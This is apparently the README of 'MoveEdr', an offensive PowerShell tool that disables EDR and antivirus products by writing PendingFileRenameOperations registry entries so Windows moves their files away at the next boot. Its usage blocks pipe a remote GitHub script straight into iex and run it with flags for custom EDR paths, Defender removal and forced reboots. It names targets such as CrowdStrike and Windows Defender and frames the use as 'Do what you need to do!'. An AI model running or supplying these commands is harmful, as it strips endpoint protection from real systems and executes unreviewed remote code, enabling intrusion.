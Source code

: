 # MoveEDR

If you're admin you can force Windows to delete or move folders and files around immediately after booting before services are started. This can be used to disable EDRs.

## Usage

```
curl https://raw.githubusercontent.com/duhirsch/MoveEdr/refs/heads/main/MoveEdr.ps1 | iex; MoveEdr
# Reboot!
```

The following Flags are available
- `Undo` : Undo the EDR Move, works with `CustomPaths`
- `Clear`: Clear the registry key's value
- `Print`: Print the value of the registry key in a human-readable format instead of strings terminated by null bytes
- `CustomOnly`: By default, the `CustomPaths` and `FullyCustomPaths` are added to the built-in moves. This flag ensures that *only* your custom paths are moved.
- `CustomPaths`: Specify your own EDR Paths instead of using built-in ones. Only takes sources as inputs, to also customize the destination use `FullyCustomPaths` instead.
- `FullyCustomPaths` : Specify sources and destinations, gives you control over destination instead of using a `$Suffix`.
- `Suffix`: Use a different suffix for moved files instead of the default `_bak`
- `Dump`: Dump the values of the registry key in a format that can be used with `Load`
- `Load`: Load previously dumped values of the registry key
- `DefenderHard`: Instead of moving only select executables of the Windows Defender, move the whole `Windows Defender` folder
- `IgnoreOld`: Do not keep already existing values of the registry key, blindly overwrite them
- `Reboot`: Perform a reboot immediately after setting the registry key. Might perform Windows Updates and take a long time to reboot 😬

### Example
```
curl https://raw.githubusercontent.com/duhirsch/MoveEdr/refs/heads/main/MoveEdr.ps1 | iex
MoveEdr -CustomPaths "C:\Program Files\newAndShinyEdr","C:\Windows\System32\drivers\newAndShinyEdr" -Suffix "_x33f" -IgnoreOld -DefenderHard -Reboot

# Do what you need to do!

# Undo
# Same command as before, just append -Undo
curl https://raw.githubusercontent.com/duhirsch/MoveEdr/refs/heads/main/MoveEdr.ps1 | iex
MoveEdr -CustomPaths "C:\Program Files\newAndShinyEdr","C:\Windows\System32\drivers\newAndShinyEdr" -Suffix "_x33f" -IgnoreOld -DefenderHard -Reboot -Undo
```

## Long Story
Some programs have a feature which prevents even local administrators from uninstalling or disabling them. Most of the time these are AVs/EDRs which prompt you for a deactivation password, even when you are administrator.

Here is a trick to disable them by moving files and folders around so that they can not be started on the next boot.

[SysInternals's PendMoves](https://learn.microsoft.com/en-us/sysinternals/downloads/pendmoves) provides `movefile.exe` which has the following explanation:

>There are several applications, such as service packs and hotfixes, that must replace a file that's in use and is unable to. Windows therefore provides the MoveFileEx API to rename or delete a file and allows the caller to specify that they want the operation to take place the next time the system boots, before the files are referenced. Session Manager performs this task by reading the registered rename and delete commands from the HKLM\System\CurrentControlSet\Control\Session Manager\PendingFileRenameOperations value.

How exactly does `MoveFileEx` do this? Let's check the [documentation](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-movefileexa#remarks) :

> The function stores the locations of the files to be renamed at restart in the following registry value: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\PendingFileRenameOperations
> 
> This registry value is of type REG_MULTI_SZ. Each rename operation stores one of the following NULL-terminated strings, depending on whether the rename is a delete or not:
>
>    szSrcFile\0\0  
>    szSrcFile\0szDstFile\0

This means that we can achieve the same effect as `movefile.exe`by creating the registry key `PendingFileRenameOperations`and enter the paths of the files/directories we want to delete in the correct `REG_MULTI_SZ` format.

The `MoveEdr` script automates creating the correct registry keys for the following AVs/EDRs:

- [ ] Bitdefender
- [ ] Blackberry Cylance
- [ ] Checkpoint
- [ ] Cisco
- [x] CrowdStrike
- [ ] Cyberreason
- [x] Elastic
- [ ] FireEye
- [ ] Fortinet
- [ ] Kaspersky
- [ ] Malwarebytes
- [ ] McAfee
- [ ] Palo Alto Cortex
- [ ] Sentinel One
- [ ] Symantec
- [x] Trend Micro Security Agent
- [ ] VMware Carbon Black
- [ ] Webroot
- [x] Windows Defender
- [x] Windows Defender for Endpoint